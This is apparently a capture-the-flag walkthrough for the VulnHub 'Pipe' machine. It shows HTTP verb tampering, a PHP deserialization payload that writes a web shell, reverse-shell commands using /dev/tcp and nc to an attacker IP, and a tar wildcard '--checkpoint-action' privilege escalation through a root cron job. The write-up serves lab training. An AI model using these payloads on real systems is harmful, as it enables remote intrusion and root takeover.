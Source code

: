 ## Pipe

https://www.vulnhub.com/entry/devrandom-pipe,124/

### www-data

To access index.php, we can insert a non-existent method to see the content:
```
DUDY /index.php HTTP/1.1
```

These are the params on POST index.php:
```
O:4:"Info":4:{s:2:"id";i:1;s:9:"firstname";s:4:"Rene";s:7:"surname";s:8:"Margitte";s:7:"artwork";s:23:"The Treachery of Images";}
```

Enumerate directories:
```
/scriptz
/scriptz/log.php.BAK
/scriptz/php.js
```

This is log.php:
```php
<?php
class Log
{
    public $filename = '';
    public $data = '';

    public function __construct()
    {
        $this->filename = '';
	$this->data = '';
    }

    public function PrintLog()
    {
        $pre = "[LOG]";
	$now = date('Y-m-d H:i:s');

        $str = '$pre - $now - $this->data';
        eval("\$str = \"$str\";");
        echo $str;
    }

    public function __destruct()
    {
	file_put_contents($this->filename, $this->data, FILE_APPEND);
    }
}
?>
```

We can create our file to create the object to test:
```php
<?php
class Log
{
    public $filename;
    public $data;

    public function __construct($filename, $data)
    {
        $this->filename = $filename;
	$this->data = $data;
    }
}

$logObject = new Log("/var/www/html/scriptz/test.txt", "This is a test");

echo(serialize($logObject));

# Result
O:3:"Log":2:{s:8:"filename";s:30:"/var/www/html/scriptz/test.txt";s:4:"data";s:14:"This is a test";}
```

To get a reverse shell:
```php
# Remember to use backslash to escape the quotation marks used in the command inside the php used to print the payload
O:3:"Log":2:{s:8:"filename";s:29:"/var/www/html/scriptz/rev.php";s:4:"data";s:73:"<?php system("bash -c 'bash -i >& /dev/tcp/192.168.1.125/1337 0>&1'"); ?>";} 
```

<br>

### Privilege Escalation
Crontab:
```
* * * * * root /root/create_backup.sh
*/5 * * * * root /usr/bin/compress.sh
```

We read compress.sh and see it's using tar on all files inside /home/rene/backup/ and we can write inside this directory.
```
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1| nc 192.168.1.125 3333 >/tmp/f" > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
```
